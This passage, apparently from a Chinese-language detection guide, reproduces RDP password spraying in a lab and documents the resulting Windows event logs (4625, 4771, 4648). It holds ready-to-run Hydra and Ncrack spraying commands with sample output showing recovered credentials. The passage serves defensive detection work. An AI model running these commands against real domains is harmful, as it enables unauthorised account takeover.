   ```xml
    </EventData>
  </Event>
  ```

## 测试复现

### 环境配置
- 域控制器：Windows Server 2019（dc.lab.local）
- 域内主机：Windows 10
- 工具：Hydra、Ncrack
- 用户列表：`users.txt`（testuser1,testuser2,...）
- 密码：`Password123`
- 域策略：锁定阈值5次，锁定窗口30分钟

### 复现步骤
1. **Hydra RDP密码喷射**：
   ```bash
   hydra -L users.txt -p Password123 rdp://dc.lab.local -t 4 -w 30
   ```
   - 输出示例：
     ```
     [3389][rdp] host: dc.lab.local login: testuser1 password: Password123
     ```
2. **Ncrack RDP密码喷射**：
   ```bash
   ncrack -u users.txt -p Password123 -T 3 rdp://dc.lab.local --pairwise
   ```
   - 输出示例：
     ```
     Discovered credentials: testuser1 Password123
     ```
3. **验证日志**：
   - 域控制器：检查事件ID4625、4771。
   - 域内主机：检查事件ID4648。

## 测试留痕

### Windows安全日志
- **事件ID4625**：
  ```xml
  <Event>
    <EventData>
      <Data Name="TargetUserName">testuser1</Data>
      <Data Name="TargetDomainName">LAB</Data>
      <Data Name="FailureReason">未知用户名或密码错误。</Data>
      <Data Name="Status">0xc000006d</Data>
      <Data Name="SubStatus">0xc0000064</Data>
      <Data Name="LogonType">10</Data>
      <Data Name="LogonProcessName">User32</Data>
      <Data Name="AuthenticationPackageName">Negotiate</Data>
      <Data Name="WorkstationName">ATTACKER-PC</Data>
    </EventData>
  </Event>
  ```
- **事件ID4771**：
  ```xml
  <Event>
    <EventData>
      <Data Name="TargetUserName">testuser1</Data>
      <Data Name="SuppliedRealmName">LAB</Data>
      <Data Name="FailureCode">0x18</Data>
    </EventData>
  ```